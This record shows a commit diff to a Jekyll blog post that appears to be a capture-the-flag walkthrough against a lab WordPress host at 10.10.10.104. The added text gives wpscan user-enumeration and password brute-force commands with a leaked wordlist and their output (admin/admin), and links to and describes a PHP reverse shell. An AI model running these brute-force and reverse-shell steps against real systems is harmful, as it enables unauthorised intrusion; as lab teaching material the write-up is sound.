

Before and after one commit to jai-the-seeker/musings, a Jekyll site: the page built from _posts/2020-03-26-wlakthrough.markdown, in a window 1280 px wide and 1400 px high, scrolled down 5189 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 5792 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated post

```diff
--- a/_posts/2020-03-26-wlakthrough.markdown
+++ b/_posts/2020-03-26-wlakthrough.markdown
@@ -168,7 +168,23 @@ Now, if can somehow exploit the wordpress site to upload our webshell, we can
 get acess to the system. One of the simpliest ways is to find the user accounts
 and then try to bruteforce the passwords.
 
-Let us try to enumerate the users
+Few of interesting options with `wpscan --enumerate` are
+
+{% highlight console %}
+-e, --enumerate [OPTS]  Enumeration Process
+                         Available Choices:
+                          vp   Vulnerable plugins
+                          ap   All plugins
+                          p    Popular plugins
+                          vt   Vulnerable themes
+                          at   All themes
+                          u    User IDs range. e.g: u1-5
+                               Range separator to use: '-'
+                               Value if no argument supplied: 1-10
+
+{% endhighlight %}
+
+Let us try to enumerate the users based on user ids.
 
 {% highlight console %}
 wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0
@@ -188,4 +204,30 @@ wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm
 {% endhighlight %}
 
 Once we have enumerated the users, we can bruteforce the password. We have downloaded
-the wordlist `rockyou-75.txt` from
+the wordlist `rockyou-75.txt` from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt)
+
+{% highlight console %}
+wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0 --usernames 'admin' --passwords "/home/student/rockyou-75.txt"
+{% endhighlight %}
+
+{% highlight console %}
+[+] Performing password attack on Wp Login against 1 user/s
+Trying admin / admin Time: 00:03:36 <======================================================> (19815 / 19815) 100.00% Time: 00:03:36
+[SUCCESS] - admin / admin
+
+[i] Valid Combinations Found:
+ | Username: admin, Password: admin
+{% endhighlight %}
+
+With *username* and *password* under our kitty, we can use them to upload the `webshells`. There is a lot of material
+avilable to create a webshell in php. You can refer [hacksland.net](https://hacksland.net/build-a-simple-web-shell/)
+for a simple webshell.
+
+However, for our purpose we will be using the webshell provided by (pentestmonkey)[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]. Just to provide an insight into the
+working of this webshell, it broadly does following :
+
+  1. Creates a deamon in the victim machine, which in turn makes a reverse TCP connection with the  attacker machine. `deamons` are in `unix/linux` what `services` are in windows.
+  2. Opens bash shell on victim machine.
+  3. The deamon receives the commands from the attacker machine and passes them to the bash shell through pipes.
+  4. The response received from the bash shell is passed to the deamon which inturn sends it to the attacker machine through
+reverse TCP connection.
```
